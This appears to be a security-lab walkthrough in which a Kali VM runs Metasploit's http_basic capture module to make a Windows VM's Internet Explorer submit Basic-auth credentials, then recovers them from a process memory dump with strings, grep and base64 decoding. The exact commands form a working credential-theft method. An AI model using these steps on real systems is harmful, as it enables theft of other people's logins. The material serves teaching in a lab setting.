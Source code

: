 

Exploitation

Kali VM

1.Open command prompt and type: msfconsole
2.In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
3.In Metasploit (msf > prompt) type: set uripath x
4.In Metasploit (msf > prompt) type: run

Windows VM

1.Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2.Open command prompt and type: taskmgr
3.In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.
4.Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1.Place ‘iexplore.DMP’ on the desktop.
2.Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3.Select the Copy the Base64 encoded string.
4.In command prompt type: echo -ne [Base64 String] | base64 -d
5.Notice the credentials in the output.
